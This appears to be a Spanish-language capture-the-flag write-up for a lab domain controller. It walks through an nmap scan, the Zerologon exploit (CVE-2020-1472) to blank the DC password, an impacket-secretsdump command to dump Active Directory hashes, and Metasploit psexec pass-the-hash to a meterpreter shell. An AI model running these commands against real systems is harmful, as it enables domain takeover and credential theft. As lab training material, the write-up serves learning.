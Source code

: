 ![PNG](/images/Pasted%20image%2020221031130111.png)

---
## FLAGS System Access
Nmap.

![PNG](/images/Pasted%20image%2020221031102723.png)

Usando un escaneo vemos que el puerto 135 (RPC) esta abierto, buscamos en la base de datos de exploits de Redhat filtrando por critical.

![PNG](/images/Pasted%20image%2020221031093840.png)

Una vez con esta vulnerabilidad (CVE-2020-1472) buscamos su exploit.
Nos encontramos con este repositorio que cuenta con el exploit [CVE-2020-1472_Exploit]([VoidSec/CVE-2020-1472: Exploit Code for CVE-2020-1472 aka Zerologon (github.com)](https://github.com/VoidSec/CVE-2020-1472)).

Corremos el script.
```bash
./cve-2020-1472-exploit.py -n GEOHOME -t geohome.com
```
Y nos da el siguiente output.
```bash
[+] Success: Zerologon Exploit completed! DC's account password has been set to an empty string.
```

Dejándonos la cuenta Administrator con una contraseña vacía.
Lo que nos permite capturar los hashes de los usuarios usando impacket-secretsdump.

```bash
impacket-secretsdump -just-dc -no-pass GEOHOME-DC\$@geohome.com
```

Donde nos arrojara los hashes de las cuentas de AD.

![PNG](/images/Pasted%20image%2020221031102218.png)

Con esta information nos vamos a msfconsole.
Y buscamos el exploit "windows/smb/psexec"
Y llenamos los siguientes parametros.

```json
	RHOST: "geohome.com",
	SMBDomain: "GEOHOME",
	SMBPass: "[Hash]",
	SMBUser: "Administrator"
```

Escribimos run y nos da acceso.

```bash
meterpreter > |
```

Y exploramos la carpeta Desktop de los usuarios mencionados, donde viene un .txt con las flags.
